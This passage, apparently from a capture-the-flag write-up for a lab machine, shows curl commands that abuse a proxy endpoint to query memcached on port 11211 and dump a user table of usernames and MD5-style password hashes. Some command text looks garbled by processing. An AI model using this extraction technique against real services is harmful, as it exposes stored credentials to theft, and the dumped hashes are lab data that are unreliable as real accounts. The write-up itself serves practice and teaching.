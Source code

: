 

#### Get Users Data

Now I can get the actual data. The `stock` item returns json data that
matches what I see on the port 80 page. The users item contains
usernames and hashes. To display this properly, I'll use `recode` to
un.md encode a bunch of stuff, and then a similar to before `sed`
command:



    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=get users' -H "Cookie: password=secret" | recode.md..ascii | sed -n '/<pre>/{:a;n;/<\/pre/b;p;ba}'
    VALUE users 0 24625
    {"quinton_dach": "17906b445a05dc42f78ae86a92a57bbd", "jackie.abbott": "c6ab361604c4691f78958d6289910d21", "isidro": "e4a4c90483d2ef61de42af1f044087f3", "roy": "afbde995441e19497fe0695e9c539266", "colleen": "d3792794c3143f7e04fd57dc8b085cd4", "harrison.hessel": "bc5f9b43a0336253ff947a4f8dbdb74f", "asa.christiansen": "d7505316e9a10f
    c113126f808663b5a4", "jessie": "71f08b45555acc5259bcefa3af63f4e1", "milton_hintz": "8f61be2ebfc66a5f2496bbf849c89b84", "demario_homenick": "2c22da161f085a9aba62b9bbedbd4ca7", "paris": "ef9b20082b7c234c91e165c947f10b71", "gardner_ward": "eb7ed0e8c112234ab1439726a4c50162", "daija.casper": "4d0ed472e5714e5cca8ea7272b15173a", "alanna.
    prohaska": "6980ba8ee392b3fa6a054226b7d8dd8f", "russell_borer": "cb10b94b5dbb5dfab049070a2abda16e", "domenica.kulas": "5cb322691472f05130416b05b22d4cdf", "davon.kuhic": "e301e431db395ab3fdc123ba8be93ff9", "alana": "41c85abbc7c64d93ca7bda5e2cfc46c2", "bryana": "4d0da0f96ecd0e8b655573cd67b8a1c1", "elmo_welch": "89122bf3ade23faf37b470f1fa5c7358", ...[snip]...
    END



If I update the `sed` slightly to get values between the line with
`VALUE` and `END`, I can get just the json, and I can use `jq` to format
it:



    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=get users' -H "Cookie: password=secret" | recode.md..ascii | sed -n '/VALUE/{:a;n;/END/b;p;ba}' | jq .
    {
      "quinton_dach": "17906b445a05dc42f78ae86a92a57bbd",
      "jackie.abbott": "c6ab361604c4691f78958d6289910d21",
      "isidro": "e4a4c90483d2ef61de42af1f044087f3",
      "roy": "afbde995441e19497fe0695e9c539266",
      "colleen": "d3792794c3143f7e04fd57dc8b085cd4",
      "harrison.hessel": "bc5f9b43a0336253ff947a4f8dbdb74f",
      "asa.christiansen": "d7505316e9a10fc113126f808663b5a4",
      "jessie": "71f08b45555acc5259bcefa3af63f4e1",
      "milton_hintz": "8f61be2ebfc66a5f2496bbf849c89b84",
    ...[snip]...



I'll notice that if I wait even a minute or so, the users table goes
empty. Logging out and back into the port 80 site refreshed it. I'll
save this json to a file to not have to worry about that anymore.

